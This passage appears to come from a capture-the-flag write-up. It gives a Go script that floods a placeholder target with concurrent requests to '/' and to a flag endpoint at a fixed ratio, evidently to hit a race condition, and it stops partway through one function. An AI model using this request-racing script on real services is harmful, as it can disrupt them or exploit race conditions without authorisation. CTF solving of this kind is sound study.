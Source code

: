 > “触发条件比较苛刻，脚本有点讲究的，必须让最大量的流量在路由部分，且保持两类流量比例”

```go{15-35}
package main

import (
    "fmt"
    "io"
    "log"
    "net/http"
    "os"
    "strings"
)

var url = "TARGET_IP"

func main() {
    limiter1 := make(chan struct{}, 64)
    limiter2 := make(chan struct{}, 32)
    go func() {
       for {
          limiter1 <- struct{}{}
          go func() {
             if SendSlash() {
                os.Exit(0)
             }
          }()
          <-limiter1
          limiter1 <- struct{}{}
          go func() {
             if SendSlash() {
                os.Exit(0)
             }
          }()
          <-limiter1
          <-limiter2
       }
    }()
    var i = 0
    go func() {
       for {
          limiter2 <- struct{}{}
          i++
          fmt.Println("try", i)
          go func() {
             if SendFlag() {
                os.Exit(0)
             }
          }()
       }
    }()
    select {}
}

func SendSlash() bool {
    get, err := http.Get(url + "/")
    if err != nil {
       log.Println(err)
    }
    if get != nil {
       defer get.Body.Close()
       return checkBody(get.Body)
    }
    return false
```